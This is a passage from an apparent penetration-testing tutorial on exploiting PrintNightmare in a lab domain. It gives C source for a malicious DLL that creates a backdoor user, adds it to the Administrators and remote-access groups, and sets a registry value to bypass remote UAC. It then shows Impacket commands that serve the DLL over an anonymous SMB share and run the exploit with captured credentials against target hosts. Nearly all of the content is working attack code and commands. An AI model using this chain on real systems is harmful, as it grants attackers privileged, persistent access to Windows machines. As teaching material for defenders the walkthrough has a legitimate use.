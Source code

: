 ```
    DWORD value 0x1;
    
    memset(&user, 0, sizeof(USER_INFO_1));

    // Set user structure
    user.usri1_name = username;
    user.usri1_password = password;
    user.usri1_priv = USER_PRIV_USER;
    user.usri1_flags = UF_DONT_EXPIRE_PASSWD;

    // Create user
    NetUserAdd(NULL, 1, (LPBYTE)&user, NULL);

    // Add the user to the administrators group
    LOCALGROUP_MEMBERS_INFO_3 members;
    members.lgrmi3_domainandname = username;
    NetLocalGroupAddMembers(NULL, administrators, 3, (LPBYTE)&members, 1);
    NetLocalGroupAddMembers(NULL, remote_desktop_users, 3, (LPBYTE)&members, 1);
    NetLocalGroupAddMembers(NULL, remote_management_users, 3, (LPBYTE)&members, 1);

	// Bypass Remote UAC
	if (RegOpenKeyExW(HKEY_LOCAL_MACHINE, remote_uac_bypass, 0, KEY_SET_VALUE | KEY_WOW64_64KEY, &key) == ERROR_SUCCESS) {
		RegSetValueExW(key, L"LocalAccountTokenFilterPolicy", 0, REG_DWORD, (LPBYTE)&value, sizeof(DWORD));
		RegCloseKey(key);
	}
}
```

Now let's set up anonymous SMB share hosting the file using Impacket's `smbserver.py`.

```
┌──(root㉿kali)-[/home/kali/lateralmovement/impacket/examples]
└─# ./smbserver.py share `pwd` -smb2support
```

Our final step is to execute the exploit. Let's use the credentials we've discovered in the beginning and check how the output looks for a machine that is fully patched and not vulnerable to the exploit.

```
python3 printnightmare.py 'democorp.com/j.arnold:F4ll2023!@10.10.24.102' -dll '\\10.10.24.100\share\adduser.dll'
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/30.png)

The error-code `0x801011b - RPC_E_ACCESS_DENIED` means, that the machine is not vulnerable to the exploit.

Now, let's use the exploit against the vulnerable one.
```
python3 printnightmare.py 'democorp.com/j.arnold:F4ll2023!@10.10.24.101' -dll '\\10.10.24.100\share\adduser.dll'
```
